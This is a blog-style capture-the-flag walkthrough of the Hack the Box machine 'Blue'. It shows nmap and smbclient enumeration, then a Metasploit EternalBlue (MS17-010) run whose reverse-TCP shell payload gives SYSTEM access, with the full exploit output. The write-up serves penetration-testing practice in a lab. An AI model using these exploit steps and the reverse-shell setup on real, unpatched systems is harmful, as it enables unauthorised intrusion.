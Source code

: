 ```yaml
---
layout: post
title:  "Hack the Box - Blue"
date:   2017-07-28 23:23:00
categories: [walkthrough, htb]
comments: false
---
```

![HTB-Blue](/img/htb/blue/blue.png)

An easy box by ch4p.  Great for getting to know metasploit, or practice if you want to find and modify the exploit from exploit-db.com.

{% highlight bash %}
C:\Windows\System32>whoami	        
nt authority\system

C:\Windows\System32>hostname
haris-PC
{% endhighlight %}

<!--more-->
## Host Discovery

Starting this one off with a light nmap scan to see if there is anything interesting on the standard 1000 ports.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # nmap -sV 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-06 10:42 MST
Nmap scan report for 10.10.10.40
Host is up (0.072s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.60 seconds

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali #
{% endhighlight %}

Sure enough, SMB is open on the system, and based on the name of the box chances are this is an EternalBlue (MS17_010) exploitable box.

## Enumeration/Port Mapping

Lets see if you can login as a guest by attempting to list and then login to a share without specifying a user.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient -L //10.10.10.40
Enter WORKGROUP\root's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient  //10.10.10.40/Users
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 00:56:23 2017
  ..                                 DR        0  Fri Jul 21 00:56:23 2017
  Default                           DHR        0  Tue Jul 14 01:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 22:54:24 2009
  Public                             DR        0  Tue Apr 12 01:51:29 2011

		8362495 blocks of size 4096. 3842276 blocks available
smb: \>
{% endhighlight %}

Sure enough we can get into the Users share without any real credentials.  On to exploitation!

## Exploitation - MS17-010 EternalBLue

Now, this is the non OSCP friendly way to do it, but chances are this is the way most folks will go ahead and do it.  Using Metasploit and the `exploit/windows/smb/ms17_010_eternalblue)` built in we should be able to get a system shell.

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.17      yes       The listen address (an interface may be specified)
   LPORT     443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >
{% endhighlight %}

Payload all set now we just run:

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.17:443
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.17:443 -> 10.10.10.40:49158) at 2020-02-06 10:21:13 -0700
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

C:\Windows\system32>cd \users\administrator\desktop
cd \users\administrator\desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff54************************e717

C:\Users\haris>cd \Users\haris\desktop
cd \Users\haris\desktop

C:\Users\haris\Desktop>type user.txt
type user.txt
4c54***********************deea9
C:\Users\haris\Desktop>
{% endhighlight %}

That is all there is to it.
